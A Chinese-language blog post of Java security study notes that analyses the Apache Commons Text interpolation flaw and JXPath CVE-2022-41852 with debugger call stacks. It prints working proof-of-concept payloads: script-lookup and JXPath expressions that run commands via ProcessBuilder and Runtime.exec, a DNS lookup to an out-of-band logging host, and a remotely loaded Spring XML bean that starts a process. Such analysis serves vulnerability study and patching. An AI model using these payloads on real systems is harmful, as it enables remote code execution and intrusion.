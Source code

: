 ```yaml
---
title: "Java学习笔记Ⅺ"
slug: "java-study-notes-11"
description: "鉴定网络热门Java CVE | 长期更新"
date: 2022-10-13T23:38:14+08:00
categories: ["NOTES&SUMMARY", "LTS"]
series: ["Java学习笔记"]
tags: ["Java"]
draft: false
toc: true
---
```


## apache commons text

> apache commons text<1.10.0

在2022.9.24官方更新了1.10.0，虽然[release history](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0)中没有提到漏洞，仔细看还是有点东西

![image-20221013191723800](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013191723800.png)

也就是说在先前的版本中，`StringSubstitutor.createInterpolator()`可能存在lookup相关的问题，看看官方[doc: StringSubstitutor](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)  |  [doc: StringLookupFactory](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html)

![image-20221013193942819](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013193942819.png)

![image-20221013194321115](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013194321115.png)

更新公告中将[dns](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html#dnsStringLookup--)和[script](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/lookup/StringLookupFactory.html#scriptStringLookup--)都移出了默认的Lookups，手搓一个poc

```java
public class cText {
    public static void main(String[] args) {
        String payload1 = StringSubstitutor.createInterpolator().replace("${dns:address|cText.30nux0.ceye.io}");
        String payload2 = StringSubstitutor.createInterpolator().replace("${script:js:new java.lang.ProcessBuilder(\"calc.exe\").start()}");
    }
}
```

![image-20221013213632623](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013213632623.png)

~~这未免也太逊了8~~打个断点看看内部实现

先看能rce的，调用栈如下

```
lookup:70, ScriptStringLookup (org.apache.commons.text.lookup)
lookup:135, InterpolatorStringLookup (org.apache.commons.text.lookup)
resolveVariable:1067, StringSubstitutor (org.apache.commons.text)
substitute:1433, StringSubstitutor (org.apache.commons.text)
substitute:1308, StringSubstitutor (org.apache.commons.text)
replace:816, StringSubstitutor (org.apache.commons.text)
main:7, cText (test1)
```

![image-20221013215231838](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013215231838.png)

dns的那个同理，不再赘述

## CVE-2022-41852

> Commons JXPath<=1.3

参考：[浅析Apache Commons Jxpath命令执行分析(CVE-2022-41852)](https://tttang.com/archive/1771/)

JXPath支持标准的XPath，同时有很多附加功能，feature之一是[动态执行代码](https://commons.apache.org/proper/commons-jxpath/users-guide.html#Standard_Extension_Functions)

![image-20221017220404981](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221017220404981.png)

……这还能咋说，令人无语，本质和上面的commons text、log4j一样，都是设计了很多完全无用或者过度注重扩展性的功能，导致漏洞四处漏风；测试demo

![image-20221017221014855](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221017221014855.png)

打断点看看这个"feature"是怎么实现的；中间调用不是很多，捡重点看

```
getFunction:197, PackageFunctions (org.apache.commons.jxpath)
getFunction:753, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
getFunction:140, RootContext (org.apache.commons.jxpath.ri.axes)
computeValue:96, ExtensionFunction (org.apache.commons.jxpath.ri.compiler)
getValue:353, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
getValue:313, JXPathContextReferenceImpl (org.apache.commons.jxpath.ri)
main:9, test (test1)
```

![image-20221017221944986](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221017221944986.png)

注意这里处理methodName时支持两种调用方式，实例化构造函数ConstructFunction(constructor)和静态方法反射调用MethodFunction(method)，我们这里的demo是第二种方式，那还有没有更多的利用方式？

- 针对构造函数：

org.springframework.context.support.FileSystemXmlApplicationContext.new(http://127.0.0.1/a.xml)

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation=" http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>calc.exe</value>
</list>
</constructor-arg>
</bean>
</beans>
```

- 针对静态方法

javax.naming.InitialContext.doLookup，jndi调用

jdbc利用

以上几种方式都有应用场景的局限，有没有什么仅用JXPath就可以的呢？官方doc中第三个demo给出了

```java
String firstName = (String)context.getValue("getAuthorsFirstName($book)");
// As you can see, the target of the method is specified as the first parameter of the function.
```

也就意味着我们可以这样在JXPath中链式调用函数进行rce，无需其它依赖

```java
String firstName = (String)context.getValue("exec(java.lang.Runtime.getRuntime(),'calc.exe')");
String firstName = (String)context.getValue("eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec(\"calc.exe\")')");
```

帅！